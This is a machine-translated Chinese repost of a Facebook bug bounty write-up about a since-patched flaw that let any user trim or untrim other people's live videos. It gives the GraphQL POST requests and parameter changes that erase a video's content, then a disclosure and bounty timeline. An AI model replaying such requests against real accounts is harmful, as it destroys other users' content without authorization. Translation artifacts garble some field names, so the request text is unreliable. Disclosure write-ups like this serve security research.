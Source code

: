# (POC)删除任何脸书的直播视频(14000 美元奖金)

> 原文：<https://infosecwriteups.com/poc-remove-any-facebooks-live-video-14-000-bounty-70c8135b7b4c?source=collection_archive---------1----------------------->

![](img/6d6cc34dbc6567a39bc1eb8022168ff4.png)

# 描述/影响

有一个功能(视频修剪)允许脸书用户从他们的直播视频中删除不必要的内容。只有业主可以代表他们做这个，但根据我的测试，我观察到，有可能代表业主修剪任何现场视频，这不是预期的行为

**影响**

任何人都可以剪辑脸书的任何直播视频。将视频修剪为 5 毫秒将导致视频长度为 0 秒，所有者将无法取消修剪。

# 概念证明/重新步骤

1.获取目标现场视频 ID
2。获取当前用户 ID
3。复制请求

POST
[/api/graphql/？_ _ a = 1&doc _ id = 3975916122480615&变量](https://www.facebook.com/api/graphql/?__a=1&doc_id=3975916122480615&fb_api_req_friendly_name=LiveProducerLiveVideoTrimMutation&server_timestamps=true&variables){ " input ":{ " end _ time _ ms ":12000，" start_time_ms":0，" video _ id ":" valuefromtepone "，" actor _ id ":" valuefromteptwo "，" client_mutation_id":"1"}}

4.用您希望视频结束的毫秒时间更新字段
end _ time _ MS(1 秒= 1000 MS，其中 10000 MS = 10 秒)，如果视频持续时间为 5 分钟，结果将使视频持续时间仅为 10 秒。

5.提交请求

反应

{
【错误】:
{
…
【代码】:1675030，
…
}

响应返回了一个错误#1675030，但是已经完成了。

*   再次更新字段(end_time_ms)以删除视频内容
    end_time_ms:1
    这将删除视频内容(所有者无法恢复原始视频)

原始视频持续时间变成 0 秒长

假设主人已经修剪了他们的现场视频。

通过(攻击者)取消视频剪辑

-提交请求

POST
[/api/graphql/？_ _ a = 1&doc _ id = 3989508527791126&变量](https://www.facebook.com/api/graphql/?__a=1&doc_id=3989508527791126&fb_api_req_friendly_name=LiveProducerLiveVideoUntrimMutation&server_timestamps=true&variables){ " input ":{ " video _ id ":" valuefromtepone "，" actor _ id ":" valuefromteptwo "，" client_mutation_id":"25"}}

反应

{
【错误】:
{
…
【代码】:1675030，
…
}

响应返回了一个错误#1675030，但是已经完成了(这将导致隐私问题！)

**影响**

任何人都可以修剪/取消修剪脸书上的任何直播视频。将视频修剪为 5 毫秒将导致视频长度为 0 秒，所有者将无法取消修剪。

# 时间表

2020 年 9 月 25 日:报告已发送

2 小时后由脸书审判

2020 年 9 月 28 日:脸书确认补丁

2020 年 10 月 10 日: **$11，000** 在 BountyCon 2020 期间颁发的奖金(带奖金)

2020 年 12 月 10 日:脸书追加 **$1150** 赏金(带奖金)

2020 年 12 月 10 日:脸书追加**2300 美元**赏金(带奖金)